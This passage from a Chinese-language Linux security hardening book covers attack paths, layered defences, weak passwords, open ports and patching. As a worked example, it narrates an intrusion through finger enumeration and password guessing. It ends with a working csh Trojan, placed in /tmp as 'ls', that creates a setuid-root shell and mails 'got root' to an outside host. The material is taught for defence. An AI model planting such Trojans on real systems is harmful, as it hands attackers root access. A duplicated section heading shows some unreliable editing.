我最喜欢的是用于从浏览器表单提交生成电子邮件的 `CGI` 脚本技术。许多此类脚本的问题在于，脚本只是将用户的字段直接放入 `Mail` 命令中。入侵者只需在正确的字段中间插入一个分号或换行符，之后的任何文本都会被解释为 `shell` 命令。即使该命令不是以 `root` 身份运行，用户也可能能够访问数据库或其他关键数据。即使是经验丰富的程序员也可能无法理解所有安全问题。

为了维护互联网上 `Linux` 系统的安全性，必须处理许多、许多问题。这被称为系统加固。类似于保护房屋免受入侵，有些事情很简单、容易且低成本，例如出门时锁门。安装防盗锁会提高安全性。全天候的报警系统和武装警卫是终极保护，但对大多数人来说无法实现且不具成本效益，除非是那些处于特定风险中的人，如富人和有权势者。你必须每次都做对，但破解者只需幸运一次即可。

## 准备和检测入侵

定期会发现程序中的安全漏洞，不幸的是，这些漏洞通常是由埋头研读源代码或进行实验的破解者发现的。尽管一些吹捧者声称这是 `Linux` 的弱点，但事实是，由于有如此多的人在查看代码，问题会被快速发现并修复，通常在一两天内即可解决。根据作者的经验，闭源供应商可能需要从一个月到一年不等的时间才能修复许多严重问题。聪明人不会留下无人看管的蜡烛，也不会在床上吸烟，但依然会安装烟雾探测器并购买保险。我们将探讨为可能的入侵做准备、检测入侵尝试甚至成功的入侵时，需要采取的许多重要步骤。

## 从入侵中恢复

白宫 Web 服务器在被入侵后宕机数天。我们将使用一些技术来检测甚至从成功的入侵中恢复。这些技术能够仅用几分钟时间实现检测和恢复，并将数据丢失降至最低。白宫系统以及许多其他在入侵后宕机一个或多个工作日的网站，若能采用这些技术将会受益。

# 部分：保护你的系统

问题根据其危险等级使用一至五个骷髅交叉骨符号进行评级，如下所示。这使得系统管理员可以快速确定应关注问题的程度。对于解决方案（工具和技术），它建议了这些解决方案对您可能有多大的价值。下表解释了如何将骷髅交叉骨符号的数量与特定章节中讨论的危险程度联系起来。

| 危险等级 | 解释 |
| --- | --- |
| 💀 | 影响轻微，或风险远低于 1% 的系统 |
| 💀💀 | 存在拒绝服务（DoS）潜在风险，或重大问题发生的可能性较小 |
| 💀💀💀 | 存在风险；过去曾见 `root` 利用，预计不会有更多 |
| 💀💀💀💀 | 危险但在某些情况下可接受 |
| 💀💀💀💀💀 | 过于危险不宜运行，或必须解决，或是许多站点必需的安全工具 |

# 加固你的系统

在本章中，解释了诸多常见问题，并提供了快速修复方法。由于 `Linux` 提供了如此多的标准功能，因此问题众多。涉及更复杂解决方案的问题将在后续章节中涵盖。本章中快速解决的问题涉及配置问题、过于危险而不允许提供的服务，以及具有已知漏洞的软件版本。这些问题导致许多系统被入侵；你不想让你的系统被入侵。问题的范围从基础到微妙不等。包括基本程序的不安全版本，如提供域名服务（Domain Name Service）的 `named` 守护程序等根本性程序。该程序将主机名（如 `www.pentacorp.com`）映射到其 IP 地址（例如，`192.168.57.8`）。由于使用数字地址将消息路由到其他系统，因此需要这种映射。

本章将从一些安全概念开始，深入探讨 `Linux` 系统的“七宗罪”。然后，您将详细检查各种问题并解决它们。

> 仅实施本章建议的快速修复方法，就能在忙碌的系统管理员投入最少时间的情况下，极大地提高系统安全性。

本章涵盖的主题包括：

- “理解 `Linux` 安全”见第 12 页
- “七宗罪”见第 21 页
- “密码——良好安全的关键点”见第 35 页
- “高级密码技术”见第 40 页
- “保护系统免受用户错误的影响”见第 45 页
- “宽容比许可更好”见第 51 页
- “初始系统设置期间的危险与对策”见第 58 页
- “限制不合理的访问”见第 63 页
- “防火墙与企业护城河”见第 67 页
- “关闭不必要的服务”见第 80 页
- “高安全性要求最少服务”见第 87 页
- “用砖块替换这些薄弱的门”见第 88 页
- “新灯旧屋”见第 97 页
- “团结则倒，分裂则立”见第 109 页

## 2.1 理解 Linux 安全性


本章涵盖了 `Linux` 安全性背后的部分理念，同时也提供了观察安全性的创新视角。我们将探讨新的方法，以避免那种单一“墙壁”式的安全策略，这种策略允许该墙壁上的单一裂缝导致所有安全防护失效。`Linux` 基于 `UNIX` 安全模型。该模型由美国一些顶尖的博士级计算机科学家设计。它经过了 30 年的分析、开发和演变，参与者从著名学者到破解者，再到国防部及其他政府安全专家皆有参与。它经受住了时间的考验。

### 2.1.1 你身处一条蜿蜒小径的迷宫中

一个 `Linux` 系统是一个由蜿蜒小径组成的迷宫，每条路径都有未知的连接，以及强度不同的带锁大门。破解系统的道路可能漫长且曲折，拥有许多死胡同。这个迷宫如图 2.1 所示。

如图 2.1 所示，黑客只需要找到从互联网到“拥有”系统 `root` 账户或重要数据库的众多可能路径中的一条即可。图 2.1 中那些提供意外路径的房间，如果有其中任何一个被入侵，就是 `Linux` 系统被攻破的最常见方式。如果你发现系统中存在这些情况，你需要阅读本书的相关章节，以确保这些意外通道被阻断。这些最严重的漏洞也列在表 2.1 中。本章将讨论这些问题及其解决方案。

如表 2.1 所示，入侵 `Linux` 盒子的最常见途径是许多网站中的常见功能。你还可以看到，许多途径是有 bug 的系统软件或应用程序，而不仅仅是 `SysAdmin`（系统管理员）的简单“配置错误”。这意味着正确的系统配置还不够。你还需要订阅相关的安全邮件列表，并与你的用户和程序员合作，以实现系统的安全。以下是一个现实示例，展示了黑客如何寻找你系统的漏洞并利用它们进行入侵。



**图 2.1** 你身处一条蜿蜒小径的迷宫中。


### 表 2.1 最常见的 Linux 入侵方式

| 漏洞类型 | |
| :--- | :--- |
| 存在 bug 或配置错误的 DNS 或 Sendmail | 存在 bug 或配置错误的 FTP 守护进程 |
| 存在 bug 的 CGI 程序或配置错误的 Apache | 弱密码或缺失密码 |
| NFS、`mountd` 或 Sun 远程过程调用 | 存在 bug 的 set-UID 为 root 的程序 |
| 存在 bug 或配置错误的 POP 或 IMAP | Telnet |
| SNMP，特别是使用默认密码时 | |

如果这个例子让你感到害怕，或者它甚至可能在你的系统上起作用，那么你来对地方寻找解决方案了。如果这对你来说太基础了，请继续往下读，因为这里每个人都有所得。（在这个例子中，我们甚至不会尝试 CGI 程序或缓冲区溢出。）

> 本节标题的灵感来自电脑游戏 *Adventure*，在该游戏中，玩家探索一个拥有许多相互连接房间的地底魔法洞穴。许多大型旧建筑，包括城堡，也有类似的相互连接的房间和大厅。

黑客在一个安全配置不佳的系统中行走的可能路径可能是以下示例。为了更好地了解黑客的过程从而更好地进行防护，该示例是从黑客的视角叙述的。

1. 我们通过在另一个网站看到链接、收到来自该网站的电子邮件，或者仅仅听说 Pentacorp 这个名字，发现了主机名 `www.pentacorp.com`。

2. Ping 它以检查其是否存在。

```bash
$ ping www.pentacorp.com
PING www.pentacorp.com (216.247.56.62): 56 data bytes
64 bytes from 216.247.56.62: icmp_seq=0 ttl=55 time=189.4 ms
64 bytes from 216.247.56.62: icmp_seq=1 ttl=55 time=160.3 ms
```

> 由于许多网站正在禁用 ICMP 回显功能，`nslookup` 或 `traceroute` 更可能得出有效结果。除非网络故障，`nslookup` 始终能验证站点是否存在。使用 `traceroute` 可以测试连接性，如果出现问题，它会显示是哪个系统出了问题。

3. 我们检查它是否支持 `finger`。

```bash
$ finger root@www.pentacorp.com
[www.pentacorp.com]
Login: root               Name: root
Directory: /root         Shell: /bin/tcsh
Last login Wed Apr 5 11:33 (EDT) on tty2
```

> Pentacorp 和 Fly-By-Day Consulting 的名称是 Fly-By-Day Consulting, Inc. 的商标。

是的，SysAdmin 让我们能够看到系统管理员是否在系统上（他可能会注意到我们），并且允许我们猜测账户名称而不会报告这些猜测，这让事情变得容易了。

4. 尝试猜测账户名称。

因为许多人使用其账户名称和常用主机名作为电子邮件地址，黑客可以从电子邮件、阅读邮件列表和新闻组，以及使用网络搜索引擎获取这些信息。

```bash
$ finger ken@research.pentacorp.com
finger: ken: no such user.
$ finger dennis@research.pentacorp.com
finger: dennis: no such user.
$ finger bill@research.pentacorp.com
[www.pentacorp.com]
Login: bill
Directory: /home/bill
On since Sat Apr 1 13:40 (EDT) on tty1
```

```text
Name: Bill Sateg
Shell: /bin/tcsh
Idle 6 days 16 hours
```

我们找到了一个账户。太棒了。

5. 猜测 Bill 的密码。

```bash
$ telnet www.pentacorp.com
Trying 192.168.57.8...
Connected to www.pentacorp.com
www.pentacorp.com login: bill
Password: money
Login incorrect
```

```text
www.pentacorp.com login: bill
Password: 640k
You have new mail.
```

现在我们以普通用户身份登录。

6. 现在尝试成为 root。尝试猜测 root 的密码。对 `su` 进行 20 次错误猜测后放弃。这是一条死胡同。

7. 查看加密密码是否在 `/etc/passwd` 中。如果是，我们可以在自己的系统中破解它们。

```bash
% cat /etc/passwd
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:
daemon:x:2:2:daemon:/sbin:
ralph:x:101:100:daemon:/home/ralph:/bin/bash
bill:x:102:100:daemon:/home/bill:/bin/tcsh
```

糟糕。root 的密码字段中的 "x" 表明他们使用的是影子密码，包含在 `/etc/shadow` 中。另一条死胡同。

8. 查看 root 的 `$PATH` 变量说明什么。

```bash
% cat /root/.bash_profile
alias rm='rm -i'
alias ls='ls --color -F'
export PATH=.:/usr/local/bin:$PATH
```

完美。SysAdmin 将 `.` 包含在他的搜索路径中，并且位于 `/bin` 之前。这意味着，如果 root 发出命令 `ls`，并且当前目录中存在同名程序，那么 `/ls` 将被执行，而不是 `/bin/ls`。这是一个错误，而且很常见。（另一个常见错误是允许访问 `/root` 甚至允许写入权限。）

9. 在 `/tmp` 中设陷阱，留下 `ls`、`favorite_editor` 和 `other_editor` 的虚假版本，等待 root 走进那里。我们可以通过创建巨大文件来故意填满磁盘空间，或者我们在 `/tmp/ls` 中创建一个脚本，让 root 更快查看。

```csh
% cat > /tmp/ls
#!/bin/csh -f
# If root, go directly to finish to give up ls
if (! -o root) goto finish
# Copy the shell
cp /bin/sh .sh
# Make it set-UID root!!!
chmod 4755 .sh
# Send us e-mail when it happens
hostname | mail -s "got root" crackem.com
# Remove the Trojan horses
/bin/rm ls pwd
finish:
/bin/ls *
^D
% chmod 755 /tmp/ls
% cp /tmp/ls /tmp/vi
```

> 此环境变量列出了如果在命令名称中没有斜杠，应该搜索哪些目录以查找命令。

> 这段代码由作者编写，测试了正确操作，并几乎像书中展示的所有代码一样复制到手稿中。

### 2.1.2 攻击路径

在上一节中，你看到了如何可以将 Linux 或 UNIX 系统视为一个由蜿蜒小径组成的迷宫。对于没有深入研究过 Linux 或 UNIX 安全性的人来说，这可能看起来很令人困惑和混乱。

虽然这个类比将 Linux 比作迷宫，但它也适用于大多数其他现代操作系统，包括 UNIX、Windows、Windows NT 和 VMS。

你可能已经注意到，对于我们的假设黑客来说，这似乎并不令人困惑或混乱。这是因为他理解攻击路径的概念，并使用这种分析技术来寻找从他所在之处到他想要之处的路线，最好是拥有 root 访问权限。能够在他之前进行这种分析对你来说很有价值。基本思想是你从一个最终目标开始，即一个无需在计算机现场存在的 root shell。

你试图找到到达那里的可能路径的最后部分，以及每个替代方案的“成本”有多高。成本可能是“行走”该路径所需的时间。它可能是成本，例如破解密码所需的计算机有多强大，或者贿赂某人泄露 root 密码的成本，甚至安装电话窃听并连接调制解调器的成本。

接下来，绘制并分析到达这些最后段起点的路径及其成本。接下来，构思并分析到达这些路径的段及其成本。最终，你会到达你显然可以开始的起点。注意，当画出来时，这些路径看起来非常像树，是活的那种以及文件系统树。最后，你为每个可能路径的所有段添加成本。通往 root 的这些路径如图 2.2 所示。

如图 2.2 所示，这种分析方法显示了优点和缺点，假设你很好地理解系统的组件。问题如下：


1. 你找到了所有实际路径吗？这是最难回答的问题。
2. 哪些路径对黑客来说最容易跟随？
3. 是否有路径足够容易，以至于它们代表了重大的入侵风险？
4. 你如何消除这些路径或使黑客更难跟随它们？
5. 你如何迫使黑客经过一系列较难执行的路径序列以增加安全性？

Bruce Schneier，Counterpane Internet Security 的 CTO 以及著名安全专家，在 1999 年 12 月的 *Dr. Dobb's Journal* 上发表了题为“攻击树”的文章。他的文章为本节提供了一些灵感。



**图 2.2** 通往 root 的攻击路径。

图 2.2 提供了更深入的分析，确切地展示了从一个“状态”推进到另一个“更高能量状态”所需采取的步骤。任何合格的黑客都会沿着这些思路思考，并且很可能正在绘制这些图表，无论是在纸上还是在脑海中。许多人发现使用攻击路径来分析 Linux 安全是非常有用的。

它允许你用简单的术语，一次一个步骤地理解入侵系统的各种可能方式。因此，它使你在黑客发现之前更容易地发现安全问题。如果你仔细研究图 2.2 并分析每一个步骤，你可能会注意到一些“容易”的路径，可以通过极小的努力使其变得“困难”。为了提高安全性，分析每个路径段的难度，要么消除容易的路径，要么使其更困难。

> 使用攻击路径是故障分析的一部分，故障分析是研究系统可能故障模式的科学。无论系统是计算机、桥梁、飞机还是宇宙飞船，它都有帮助，并被设计所有这些的工程人员使用。

也要认识到，即使是拥有几十年经验的专家，也不可能找到所有路径。攻击路径方法只是提高系统安全性的众多工具之一。

强化此系统的一些方法包括：
1. 使用影子密码（shadow passwords）防止黑客获取加密密码，从而避免她在自己的系统上进行破解。关于实现影子密码的细节，请参见第 41 页的“使用 MD5 影子密码以获得良好安全性”。
2. 配置 `FTP` 以运行 `chroot`，使其无法访问 `/etc/passwd` 或 `/tmp`。大多数最近发行的发行版默认已按此方式运行。对其他守护进程（如 `named`）也使用 `chroot` 功能。
3. 不要允许 root 的 `$PATH` 中包含 "."。
4. 禁用所有不必要的服务，例如 `finger` 守护进程。
5. 不要将用户账户名称（电子邮件地址）放在网站上。
6. 确保密码难以破解。请参见第 35 页的“密码——良好安全性的关键点”。
7. 确保没有有缺陷的 set-UID 程序。保持软件升级到最新版本。尽可能将程序设置为非 root 账户的 set-UID。寻找 set-UID 程序的替代方案（如果这样能增加安全性）。
8. 聘请一名优秀的顾问对安全进行审计并执行渗透测试。

在分析安全问题时，攻击路径可以提供巨大的帮助。这对于本地添加的应用程序（包括 CGI 程序）尤其如此。由于 CGI 通常存在安全漏洞（错误），这将有助于确定后果可能有多严重。该技术还将帮助你看清不同的变化如何在发现 CGI（或其他应用程序）中的漏洞时限制损害。它允许你看清哪些 CGI 从安全角度最关键，哪些需要最详细的安全分析。

### 2.1.3 迁移至安全环

| 危险级别 ☠ ☠ ☠ ☠ ☠ |
| :--- |

许多系统管理员和程序员基于 UNIX 最初使用（在 30 年演进之前）的单一“安全环”概念进行操作。这种观念认为，在黑客和系统数据之间只需要一道屏障（即“安全环”）。安全性取决于这道单一屏障的完美性。更糟糕的是，边界防火墙无法阻止来自组织内部的 50–80% 的入侵。这不仅仅是个人系统的问题。许多公司只有单一配置好的防火墙。有些人甚至将其称为限制。在那道防火墙后面，有许多未受保护的系统依赖于这道防火墙的完美性。在一个完美世界中生活是怎样的？

代替单一的保护环，存在多个“安全环”的概念。如果做对了，即使黑客突破了一个环，还会有另一个环来阻止他，甚至可能有第三个。要拥有多个“安全环”，必须改进安全性，使得黑客必须遵循至少两个“难以遵循”的路径段才能到达任何造成重大危害的目标。遵循路径意味着渗透其中一个“安全环”。

已在 Linux 的多个地方增加了“安全环”。这就是 root 不应被允许使用 `telnet` 的原因。此限制要求黑客在通过 `telnet` 远程以 root 身份登录之前打破两个密码（root 的和某个普通用户的）。这创建了两个“安全环”。关于详细信息，请参见第 63 页的“限制谁可以从哪里登录”。

同样，root 也不是可接受的 `FTP` 访问。“安全环”也是 `FTP` 守护进程具有 `chroot` 功能的原因，该功能可以（并且应该）用于将任何用户（和使用匿名 `FTP` 的黑客）限制在文件系统的一个小型且精心构建的部分中。`chroot` 功能在第 138 页的“FTP”和第 150 页的“限制命名妥协的后果”中有讨论。

利用“安全环”的最佳方法是使用攻击路径分析你的系统，如第 17 页的“攻击路径”中所述。黑客从“容易到达”的起点到达她可以造成伤害的点位的唯一方式是拥有至少两个“困难”的路径段。

有时需要创造力来想出如何做到这一点。“安全环”非常有价值的地方之一是从你的 CGI 程序到数据的路径。许多公司的 CGI 程序或脚本对数据库拥有特权访问权限。这意味着如果 CGI 程序存在安全 bug，黑客就拥有了你的数据库。在许多系统中，这比成为 root 还要严重，即使数据库可能由普通用户拥有。

CGI 程序和脚本通常由缺乏 Linux 安全广泛知识的人编写，并且许多这些程序和脚本存在严重 bug。解决方案是不允许 CGI 程序（或其运行的用户）直接访问数据库。相反，CGI 程序调用一个单独的、精心编写的 UID 保护服务来访问数据。

如果你的系统运行对组织重要的非 Web 自定义应用程序，那么绘制到其重要数据的攻击路径并添加“安全环”将很有帮助。

## 2.2 七大最致命的罪过


这些是最可能导致你的系统或银行账户发生重大损害的七个常见问题。如果其中任何一个是当前你系统上的问题，你应该立即处理。5

### 2.2.1 弱密码和默认密码 (#1)

作为系统管理员，你意识到你的 Linux 机器上可能存在的系统漏洞。你花了时间和精力设计了一个难以猜测的密码，该密码至少使用八个字符，使用字母和数字、大写字母和小写字母，以及可能的一些标点符号。你的 root 密码很棒——没有人能在百年内猜到它。（好吧，除了你使用影子密码外，一些拥有解密程序的强迫症可能在几天内摧毁它，但那是另一个故事。）

你的用户做得怎么样？窒息，咳嗽，恶心，呕吐。每个账户都是可能的入口点。你的用户是否遵循了你的建议、公司政策或威胁来设计密码？他们是否像你一样小心？可能没有。现在轮到你戴上黑帽子，像你的敌人一样思考。

阅读第 36 页的“避免弱密码和默认密码”至关重要。

使用像 `crack`（破解密码）这样的程序，你可以入侵用户的账户。你肯定需要获得书面管理层批准来进行这种级别的安全审计。有一些著名案例显示，未经授权的审计导致人员入狱或至少被登记在册。Rand Schwartz 就是其中之一。

你可能会在密码程序中安装一个模块，自动尝试破解用户提出的新密码。虽然标准的密码程序进行非常简单的测试，但还有更复杂的例程，包含了 `crack` 的大部分功能。实现这一点的一种方法是使用可插拔身份验证模块（PAM）增强功能中 `cracklib` 的功能来加强密码程序。`cracklib` 分析密码以确定它们是否容易破解。PAM 为 Linux 系统和其他操作系统提供额外安全。编辑 `/etc/pam.d/password` 文件如下：

```
password password requisite /usr/lib/security/pam_cracklib.so retry=3
password password required /usr/lib/security/pam_pwdb.so use_authtok
```

这将导致 PAM 启用的密码程序加载这些动态可加载库。PAM 现在在 Red Hat 中是标准的。在一些系统中，这些位于 `/lib` 而不是 `/usr/lib`。

关于配置 PAM 启用工具的更多文档位于：

`www.kernel.org/pub/linux/libs/pam/`

另一个良好的 PAM 信息来源是：

`www.sun.com/software/solaris/pam/`

在 Slack 中，如果 `/etc/login.defs` 中存在以下行（且字典已安装），此功能将启用：

```
CRACKLIB_DICTPATH      /var/cache/cracklib/cracklib_dict
```

## 2.2 七大致命原罪

### 2.2.1 不安全的默认密码 (#1)

把你的工作当成取决于是否避免思科（Cisco）的默认密码。


我知道思科用于许多路由器的默认密码是什么，因为一家客户未加固的 Linux 系统在接入网络当晚就被破解了。该密码被用来确定互联网上哪些随机 IP 接受了思科的默认密码。位于同一地点的另一套系统，我几个月前被允许对其进行“轻度”加固，它保持未受侵害。第二天，在系统下线之前，列表已增长到数百个 IP。如果思科设计得更好，本应强制管理员在设备开始接受流量之前选择一个得体的密码。多年来，大多数 Linux 发行版在路由网络流量之前都会强制设置初始非默认密码。

因此，对于思科宣称其路由器比 Linux 或 UNIX 系统更安全，因为它们“在设计中注重安全并使用专有技术”而非使用开源，这一广告声明持保留意见。我只花了一分钟用谷歌就找到了数百款热门交换机默认密码的列表。

## 2.2.2 开放的网络端口 (#2)

正如您系统上的每个账户都是攻击者的一条潜在路径，每个网络服务也是一条通向它的路。大多数 Linux 发行版默认安装“大量”的软件和服务。它们故意倾向于“易用”而非“安全”。其中许多并非必要，也不受欢迎。请花时间去移除您不需要的软件和服务。更好的做法——从一开始就不要安装它们。

要了解正在运行哪些服务，请使用 `netstat -atuv` 命令或第 80 页“关闭所需服务”中讨论的 `ports` 程序。两者都会列出您系统上所有开放的端口。即使是家用系统也可能有数十或数百个端口开放。大型 Web 服务器可能有更多。

如果本机不希望提供某些服务，请禁用它们。许多发行版都提供了控制面板以便轻松完成此操作，包括 Red Hat 和 Mandrake。您可能希望从磁盘上删除二进制文件或将其 `chmod` 为 0，特别是那些设置了 set-UID 或 set-GID 权限的文件。

NFS、shell、exec 和 login r*(`ssh`, `rexec`, `login`)、FTP、telnet、sendmail、DNS 和 linuxconf 是许多发行版默认安装的一些更常见的服务；至少其中一些不应在系统中启用。这些服务大多由 inet 守护进程 `inetd` 控制；可以通过编辑 `/etc/inetd.conf` 文件来禁用它们。

使用相应的客户端连接到其他系统时，您不需要 FTP 或本地守护进程。您不需要监听 25 端口的 sendmail 守护进程来发送邮件、发送给本地用户或通过 POP 或 IMAP 下载邮件。（您需要定期调用 sendmail 以发送延迟的出站邮件。只有当其他系统非常乐意读取 `/etc/resolv.conf` 并查询您的 ISP 的 DNS 服务器时，才需要 DNS（named，名称守护进程）。）

- NFS 由以下守护进程组成：`rpc.nfsd`、`mountd`、`portmap`、`rpc.lockd`、`rpc.statd`、`rpc.quotad` 和 automounter，它们分散在多个启动脚本中。从技术上讲，`portmap` 不是 NFS 的一部分。它是许多系统底层过程调用（RPC）层的一部分，仅用于 NFS。当 RPC 服务器（如 NFS）启动时，它会告诉 `portmap` 其服务端口号及其 TCP 或 UDP 端口号。客户端随后会询问 `portmap`：“我应该使用哪个 TCP 或 UDP 端口来使用服务 X？” 攻击者可以欺骗 `portmap` 并伪装成合法服务器。NFS 过去有很多安全漏洞，且其设计无法实现安全的配置。

在 Slackware 和类似系统中，只需注释掉 `/etc/rc.d/*.initd` 中开始的那些行。可以使用 `grep` 程序来查找这些行。在修改配置文件后，请确保终止系统中当前正在运行的任何此类服务。

如果您不想麻烦去执行 kill 命令，简单的重启即可完成此操作，并验证配置文件是否正确修改。（在重启前准备一组救援盘是个不错的主意。）

> 细心的系统管理员会在修改启动脚本后多次重启系统，以确保正确的启动和运行以及可靠性。

要从系统中删除这些服务，可以使用发行版的软件包管理器来删除它们。基于 Red Hat 的安装（Red Hat、Mandrake、Caldera、Yellow Dog、TurboLinux）使用 RPM。基于 Debian 的发行版（Debian 和 Core）使用 `dpkg`。SuSE 使用 YAST，Slackware 使用 `pkgtool`。

Linux 就像是网络领域的瑞士军刀——它有一两个你总是使用的破坏性工具，其他较少使用，还有一些从未使用。与瑞士军刀不同的是，你可以将 Linux 精简到仅需的服务，并丢弃那些不需要的。我从不使用军刀上的 awl（锥子）或开瓶器，就像我从不使用 `rsh` 或 `finger` 一样。决定您需要打开哪些端口（尽量多的以及 ftp），并关闭其余端口。关闭不必要的端口会使您的系统更安全且更优。

## 2.2.3 旧版软件 (#3)

Linux 并不完美。每月都会发现新的漏洞。[^1] 但请别绝望。Linux 中发现和修复问题的速度是地球上最快的。作为管理员，您的挑战是跟上这些变化的步伐。

每个发行版都有一个邮件列表，您可以（也应该）订阅，在那里会发布安全公告，并且有一个 FTP 或网站可以获取修复补丁。此外，还有独立的安全邮件列表，例如 Bugtraq 和 X-Force 的 Alert，它们非常出色。请务必订阅这些邮件列表。

[^1]: 最近的 Linux 漏洞在系统中大多无法远程利用。这意味着大多数 Linux 系统面临通过互联网进行远程攻击的风险很小。许多漏洞可被拥有特定 Linux 系统常规账户的人利用。其他漏洞存在于大多数人并不使用的程序中。在我看来，这与 Windows 漏洞不同，使用该主要 Windows 版本的几乎所有客户端系统或 Web 服务器都容易受到通过互联网的远程攻击，从而被攻击者完全控制。

通过向 `LISTSERV@LISTS.NETSPACE.ORG` 发送电子邮件并包含以下内容来订阅 Bugtraq：

```text
Subscribe BUGTRAQ
```

通过向 `majordomo@iss.net` 发送电子邮件并包含以下内容来订阅 X-Force 的 Alert：

```text
subscribe alert you@somewhere.com
```

其他良好的 Linux 安全信息来源包括：

- `www.lwn.net/`
- `http://linuxxtoday.com/`

它们对发行版保持中立，并转载所有主要发行版的安全公告。附录 C 中有许多关于 Web 资源的信息。

Linux 的一个美妙之处在于，当发布修复补丁时，安装速度非常快，除非它在内核中，否则该服务的停机时间仅为几秒或几分钟。极少情况下，甚至从来不需要重启。

## 2.2.4 不安全且配置不当的程序 (#4)

常用 Linux 程序中安全漏洞的数量及其严重程度已大幅减少，以至于我将低质量安全的子集从最致命的原罪中删除了。取而代之的是在未经严格控制的情况下使用不安全的程序（如 `rsh`、`NFS`、`portmap` 和 FTP），以及未能正确配置程序。这些“其他程序”只有在正确配置时才具备良好的安全性。因此，为了反映这一变化，第二版更新了“七大致命原罪”。

第五大致命原罪已与此合并。这是因为本地编写或陈旧的、不安全的 CGI 程序仍是一个问题，很大一部分问题是由于系统管理员已知使用程序的不安全功能或未能利用安全功能所致。

大多数系统管理员都知道 POP 和 IMAP（除非用 SSL 封装）、telnet 和 FTP[^2] 以明文发送密码。他们知道 NFS 和 `portmap` 有着安全问题的历史以及身份验证的设计缺陷。许多人尽管如此仍在使用，当他们被入侵时感到惊讶。不要这样做！请改用 `stop`、`simap`、`SSH` 和 `SFTP`。

[^2]: 如果您正在执行匿名 FTP，您的密码通常是您的电子邮件地址。除非您是位于格鲁姆湖（51 区）的政府研究人员并且不想承认该设施的存在，否则您通常无需担心。

`SSH`/`scp` 或 `sftp`。详见第 88 页的“用砖墙替换这些薄弱大门”、第 97 页的“为新物点亮旧灯”以及第 109 页的“团结即堕落，分裂即站立”。

许多程序只有在配置正确时才是安全的，系统管理员（SysAdmins）配置不当的情况很常见。有时这是由于缺乏培训和风险认知不足，而另一些时候则是刻意使用不安全的特性，抱着“我必须要用”的心态。Apache 最近的一个案例就是 PHP 功能。它有着近期的安全漏洞历史。PHP 的安全问题已被广泛公开，但仍有些人无法安全地使用该功能或找到替代方案。安全与便利往往是矛盾的；通常必须做出选择。

在决定部署一项服务（即改变哪些功能将被使用以及该服务将如何部署）之前，请研究其安全性。检查其安全历史记录以及如何安全地部署它。如果无法安全部署，服务的替代方案是什么？我仍然遇到使用 FTP 却未意识到 `sftp` 是一个良好解决方案的人。对于某些不安全的 NFS 服务，在防火墙后运行曾对一家客户有益。对于另一家客户，将其不安全的 Windows 网络置于防火墙之后，不同的办公室通过 VPN 连接到这些相同的 Linux 服务器，提供了极佳的安全性。另一家客户让我配置了一个防火墙，为其学生、财务行政和人力资源以及其余员工设置了独立的子单元，并设置了内部和外部 DMZ（非军事区）。本节剩余部分将专门讨论 CGI 问题。


CGI 程序允许任何人访问您的网站，无论其意图如何。其他“公认”的服务器，如 `sendmail` 和 `named`，也会与任何人通信，客户端可能请求的范围要小得多。尽管后者服务器一直有严重安全漏洞的记录，但只要保持最新（如第 25 页的“旧软件版本 (#3)”中所述），其风险就是最小的。以下是一些帮助你使网站安全的硬性规则。

## A. 永远不要以特权用户身份（如 root）运行服务器。

